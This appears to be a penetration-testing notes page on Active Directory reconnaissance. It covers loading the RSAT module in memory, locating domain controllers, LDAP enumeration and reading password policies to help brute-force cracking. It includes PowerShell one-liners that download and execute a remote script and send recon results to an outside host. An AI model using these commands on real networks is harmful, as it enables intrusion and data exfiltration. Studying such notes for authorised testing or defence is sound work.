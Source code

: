 

## Using Active Directory Remote Server Administration Toolkit (RSAT) 

Most client computers and even servers don't have RSAT installed.  
You usually need to be local admin to install RSAT.

However, every DC comes with RSAT installed, and it is just a dll found here on the DC: `C:\Windows\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management\XXX\Microsoft.ActiveDirectory.Management.dll`

If you want you can just upload that dll to your computer, import it and then you have access to the RSAT commands.

```
import-module Microsoft.ActiveDirectory.Management.dll
get-addomain
```

```
sha256sum Microsoft.ActiveDirectory.Management.dll
8eb311a48c6bb32577dac1844372513fbc66e0093351206fb17679ebd1272135  Microsoft.ActiveDirectory.Management.dll
```

If you don't want to write anything to disk you can import the entire module straight into memory with the script found [here](../tools-and-scripts/rsat.ps1). The script uses `[System.Reflection.Assembly]::Load($bytes)` which sometimes triggers WinDefender to check the files. 


```
iex (New-Object Net.WebClient).DownloadString("http://192.168.77.90/rsat.ps1")
get-aduser -filter *
```

The RSAT module can be loaded and an additional recon-script can be executed, that send home the result of the recon, all can be done without touching disk.
There are two ways to execute both, or several, command in oneline:

```ps1
'(New-Object Net.WebClient).DownloadString("http://192.168.77.90/rsat.ps1")', 'get-recon -ip 192.168.77.90 -port 9999' | invoke-expression
```


```ps1
invoke-command -scriptblock {(New-Object Net.WebClient).DownloadString("http://192.168.77.90/rsat.ps1"); get-recon -ip 192.168.77.90 -port 9999} 
```


## Check to which domain the computer is connected

```
systeminfo
```


### Get all Organizational Units (OUs)

```
ldapsearch -h evilcorp.local  -w SecretPassword  -b "dc=evilcorp,dc=local" -D "cn=Philip L,cn=users,dc=evilcorp,dc=local" "(objectClass=organizationalUnit)"
```


## Find domain-controllers

#### Method 1

Open cmd.exe and run:

```
set logonserver
```


Check for "Logon server"
```
systeminfo
```

#### Method 2

Open cmd.exe and run: 

```
echo %logonserver%
```


#### Method 3

To find all DC in a domain open CMD/PowerShell and run:

```
nltest.exe /dclist:<domain>
```



## Find Password Complexity Requirements

Knowledge of the password complexity requirements is useful if you want to perform brute force password cracking attacks, or create password lists that comply with the domains password complexity requirements.



### GPO

What complicates things even more is that Password Policy can also be set in GPO, but NOT through GPOs that are linked to a OU. THe Password Policy GPO must be linked to the domain in order to take effect.
And you can also set multiple password policies to one user/group, but with different precedence.

All and all, it is hard to know which password policy a specific user must adhere to.

https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc770394(v=ws.10)?redirectedfrom=MSDN


### Fine grained password policies (FGPP)

Since 2008 it has been possible to create find-grained password requirements, for a specific user or for a group.

If you go to `ADUC / System / Password Settings Policy` you can create a password policy. This policy can then be assigned to either users or groups. This means that a group or user can have different password policies.
 
